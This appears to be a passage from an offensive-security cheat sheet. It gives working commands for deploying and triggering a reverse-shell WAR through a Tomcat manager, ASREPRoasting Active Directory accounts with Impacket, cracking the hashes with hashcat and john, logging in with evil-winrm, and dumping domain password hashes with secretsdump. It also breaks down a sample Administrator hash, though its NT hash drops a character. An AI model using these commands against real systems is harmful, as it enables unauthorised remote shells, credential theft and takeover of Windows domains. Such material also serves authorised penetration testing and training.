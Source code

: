 - upload file
```
curl -u '<username>':'<userpassword>' -T reverseshell_file.war 'http://<victim_ip>:8080/manager/text/deploy?path=/rev_shell'
```

- get shell
```
curl -u '<username>':'<userpassword>' http://<victim_ip>:8080/rev_shell
```
---------------------------------------------------------------------------------------------------------------------------------------------------------------

# Active Directory

--------------------------------------------------------------------------------------------------------------------------------

#### Kerberos
Protocol for authentication and authorization in a computer network with the use of a key distribution center

- Kerberos preauthentication (ASREPRoast)
The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password(TGT encrypted) could be cracked offline.
```
impacket/example GetNPUsers <domain.name>/ -dc-ip <victim_ip> -request

impacket/example GetNPUsers.py <domain.name>/ -no-pass -usersfile userslist.txt -dc-ip <victim_ip>
```

Cracking TGT hash
```
hashcat -m 18200 --force -a 0 hashes.file rock_you.txt
```

```
john --wordlist=rock_you.txt hashes.file
```

- Gain access
- https://github.com/Hackplayers/evil-winrm
```
ruby evil-winrm.rb --user fsmith --password password --ip 10.10.10.175
```

- AD password hashes dump from the Ntds.dit database
```
impacket/exampl secretsdump.py -just-dc <domain.name>/user_name:"user_password"@<victim_ip>

example hash:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::

Administrator is the user name
500 is the relative identifier
aad3b435b51404eeaad3b435b51404ee is the LM hash
9485863c1e9e05851aa40cbb4ab9dff is the NT hash
```
